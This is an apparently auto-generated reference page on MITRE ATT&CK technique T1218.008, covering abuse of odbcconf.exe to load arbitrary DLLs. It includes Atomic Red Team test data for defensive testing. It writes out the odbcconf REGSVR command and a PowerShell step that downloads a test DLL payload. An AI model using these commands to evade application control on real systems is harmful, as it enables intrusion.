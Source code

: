 
# Odbcconf

## Description

### MITRE Description

> Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) Odbcconf.exe is digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017) 


## Aliases

```

```

## Additional Attributes

* Bypass: ['Digital Certificate Validation', 'Application control']
* Effective Permissions: None
* Network: None
* Permissions: ['User']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1218/008

## Potential Commands

```
odbcconf.exe /S /A {REGSVR "PathToAtomicsFolder\T1218.008\src\Win32\T1218-2.dll"}
```

## Commands Dataset

```
[{'command': 'odbcconf.exe /S /A {REGSVR '
             '"PathToAtomicsFolder\\T1218.008\\src\\Win32\\T1218-2.dll"}\n',
  'name': None,
  'source': 'atomics/T1218.008/T1218.008.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Signed Binary Proxy Execution: Odbcconf': {'atomic_tests': [{'auto_generated_guid': '2430498b-06c0-4b92-a448-8ad263c388e2',
                                                                                       'dependencies': [{'description': 'T1218-2.dll '
                                                                                                                        'must '
                                                                                                                        'exist '
                                                                                                                        'on '
                                                                                                                        'disk '
                                                                                                                        'at '
                                                                                                                        'specified '
                                                                                                                        'location '
                                                                                                                        '(#{dll_payload})\n',
                                                                                                         'get_prereq_command': 'New-Item '
                                                                                                                               '-Type '
                                                                                                                               'Directory '
                                                                                                                               '(split-path '
                                                                                                                               '#{dll_payload}) '
                                                                                                                               '-ErrorAction '
                                                                                                                               'ignore '
                                                                                                                               '| '
                                                                                                                               'Out-Null\n'
                                                                                                                               'Invoke-WebRequest '
                                                                                                                               '"https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" '
                                                                                                                               '-OutFile '
                                                                                                                               '"#{dll_payload}"\n',
                                                                                                         'prereq_command': 'if '
                                                                                                                           '(Test-Path '
                                                                                                                           '#{dll_payload}) '
                                                                                                                           '{exit '
                                                                                                                           '0} '
                                                                                                                           'else '
                                                                                                                           '{exit '
                                                                                                                           '1}\n'}],
                                                                                       'dependency_executor_name': 'powershell',
                                                                                       'description': 'Execute '
                                                                                                      'arbitrary '
                                                                                                      'DLL '
                                                                                                      'file '
                                                                                                      'stored '
                                                                                                      'locally.\n',
                                                                                       'executor': {'command': 'odbcconf.exe '
                                                                                                               '/S '
                                                                                                               '/A '
                                                                                                               '{REGSVR '
                                                                                                               '"#{dll_payload}"}\n',
                                                                                                    'name': 'command_prompt'},
                                                                                       'input_arguments': {'dll_payload': {'default': 'PathToAtomicsFolder\\T1218.008\\src\\Win32\\T1218-2.dll',
                                                                                                                           'description': 'DLL '
                                                                                                                                          'to '
                                                                                                                                          'execute',
                                                                                                                           'type': 'Path'}},
                                                                                       'name': 'Odbcconf.exe '
                                                                                               '- '
                                                                                               'Execute '
                                                                                               'Arbitrary '
                                                                                               'DLL',
                                                                                       'supported_platforms': ['windows']}],
                                                                     'attack_technique': 'T1218.008',
                                                                     'display_name': 'Signed '
                                                                                     'Binary '
                                                                                     'Proxy '
                                                                                     'Execution: '
                                                                                     'Odbcconf'}}]
```

# Tactics


* [Defense Evasion](../tactics/Defense-Evasion.md)


# Mitigations


* [Disable or Remove Feature or Program](../mitigations/Disable-or-Remove-Feature-or-Program.md)

* [Execution Prevention](../mitigations/Execution-Prevention.md)
    

# Actors


* [Cobalt Group](../actors/Cobalt-Group.md)

